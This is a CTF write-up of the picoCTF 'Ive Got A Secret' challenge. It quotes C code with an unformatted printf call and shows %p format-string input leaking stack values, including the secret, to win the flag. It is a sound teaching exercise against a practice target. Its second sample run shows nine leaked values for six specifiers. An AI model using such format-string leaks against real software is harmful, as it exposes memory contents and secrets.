 ### Ive Got A Secret - 75 points

> Hopefully you can find the right format for my secret! Source. Connect on shell2017.picoctf.com:55189..

Hint:
> This is a beginning format string attack.

The hint tells us that we want to perform a string attack.
Lets's look at the code:
```c
int secret;
if(read(fd, &secret, sizeof(int)) != sizeof(int)){
    puts("Read error. Contact admin!\n");
    return -1;
}
...
printf("Give me something to say!\n");
    fflush(stdout);
    fgets(buffer, BUF_LEN, stdin);
    printf(buffer);
...
int not_secret;
printf("Now tell my secret in hex! Secret: ");
fflush(stdout);
scanf("%x", &not_secret);
if(secret == not_secret){
    puts("Wow, you got it!");
    system("cat ./flag.txt");  
}
```
So we want to discover the address of secret and give it to not_secret to pass the condition and get the flag.
Luckily they tell us to give something so they can print it out, but they pass the buffer without proper formatting, so we can exploit this to read the stack (secret is somewhere in there).
For that, we can pass %p multiple times to print stack values, one by one.
```
Give me something to say!                                                                         
%p %p %p %p %p %p %p %p %p                                                                        
0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0xbe399fb0 0x3 0xf7fc73c4 0xffffdca0
Now tell my secret in hex! Secret:
```

Hmmm, which one should we choose? Let's run it again and see what changes.
```
Give me something to say!                                                                          
%p %p %p %p %p %p                                                                                  
0x40 0xf7fc7c20 0x8048792 0x1 0xffffdd34 0x1aa37c1b 0x3 0xf7fc73c4 0xffffdca0
Now tell my secret in hex! Secret:
```
The sixth value changed, while the rest remained the same. Guess that must be our secret. Let's write it!
```
Now tell my secret in hex! Secret: 0x1aa37c1b                                                      
a18450ba7aaa8c085c522cdef6ab35ab                                                                   
Wow, you got it!
```
Flag:
```
a18450ba7aaa8c085c522cdef6ab35ab
```